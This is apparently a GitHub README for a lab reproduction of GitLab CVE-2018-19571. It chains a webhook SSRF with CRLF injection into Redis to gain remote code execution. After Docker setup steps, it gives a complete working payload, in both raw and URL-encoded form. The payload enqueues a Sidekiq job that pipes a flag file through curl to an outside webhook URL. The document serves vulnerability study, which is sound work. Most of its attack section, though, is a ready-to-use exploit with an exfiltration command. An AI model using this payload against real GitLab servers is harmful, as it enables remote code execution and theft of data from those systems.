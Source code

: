 # GitLab SSRF

This repository is a reproduction of [CVE-2018-19571](https://nvd.nist.gov/vuln/detail/CVE-2018-19571), and how when combined with a CRLF injection exploit, can lead to remote code execution (RCE).

## CVE Details

### CVE-2018-19571

GitLab CE/EE, versions 8.18 up to 11.x before 11.3.11, 11.4 before 11.4.8, and 11.5 before 11.5.1, are vulnerable to an SSRF vulnerability in webhooks.

## Setting Up

For this reproduction, we will be using a vulnerable GitLab image, and running it using Docker Compose.

```sh
git clone https://github.com/CS4239-U6/gitlab-ssrf.git
cd gitlab-ssrf
docker-compose up
```

The goal is to provide a webhook URL that, when processed, would result in a payload being sent to Redis.

This payload, that will be enqueued, will contain a Sidekiq Job, which upon execution will run arbitrary shell code. In our case, it will copy over the flag value to us.

## Steps

We will first run through the steps, before explaining what each of these steps do.

1. Create an account, or login using the root account.

   The root password should be `password`, as specified in the file `initial_root_password`, but sometimes this doesn't end up loading properly.

   In such cases, you will need to modify the root account password directly.

   ```sh
   docker exec -it gitlab-ssrf_web_1 /bin/bash
   # Inside the shell
   gitlab-rails console
   # Inside the console
   user = User.find_by_username 'root'
   user.password = 'password'
   user.password_confirmation = 'password'
   user.save!
   ```

   Then, head over to `http://localhost:5080` and login.

2. Navigate to the create project page.

   Next, head over to `http://localhost:5080/projects/new` and click the tab `Import project`. You should see that there is an option: `Repo by URL`. We are going to use that to perform our SSRF attack.

3. Create a webhook to receive the flag.

Create a webhook URL at `https://webhook.site/`.

Paste the URL into the following code at `<URL HERE>`:

```text
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|cat /flag | curl -H "Content-Type: application/json" -X POST --data-binary @- <URL HERE>\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

Then finally, we encode the above using a [URL Encoder](https://meyerweb.com/eric/tools/dencoder/). Note that we will only be encoding the payload (which includes the blanks at the beginning and the linebreaks), and not the first and last line. You will also need to change all `%0A` to `%0D%0A`.

```text
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system_hook_push%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem_hook_push%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open(%5C%27%7Ccat%20%2Fflag%20%7C%20curl%20-H%20%22Content-Type%3A%20application%2Fjson%22%20-X%20POST%20--data-binary%20%40-%20%3CURL%20HERE%3E%5C%27).read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
```
